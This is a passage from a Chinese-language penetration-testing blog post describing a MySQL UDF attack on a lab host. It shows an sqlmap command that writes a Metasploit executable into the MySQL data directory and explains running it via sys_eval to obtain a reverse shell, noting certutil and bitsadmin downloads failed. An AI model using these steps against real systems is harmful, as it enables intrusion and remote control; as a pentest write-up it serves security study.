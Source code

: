 然后 sqlmap 写入木马。这里本来是准备远程下载的，但是发现 certutil 和 bitsadmin 执行都发生错误，有可能是这个机器的问题。

```
sqlmap -u "http://192.168.10.130/?id=2" --file-write msf.exe --file-dest "C:\phpStudy\PHPTutorial\MySQL\data\hack.exe"
```

![](https://img-blog.csdnimg.cn/20200508094608777.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

执行木马反弹。这里需要注意的是，sys_eval 函数只能执行当前目录下的文件，所以，也只能把文件写入当前路径下。

![](https://img-blog.csdnimg.cn/20200508094752155.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

相关文章：[利用 MySQL UDF 进行的一次渗透测试](https://www.freebuf.com/articles/system/163144.html)

相关文章：[PR 提权](https://blog.csdn.net/qq_36119192/article/details/84562454)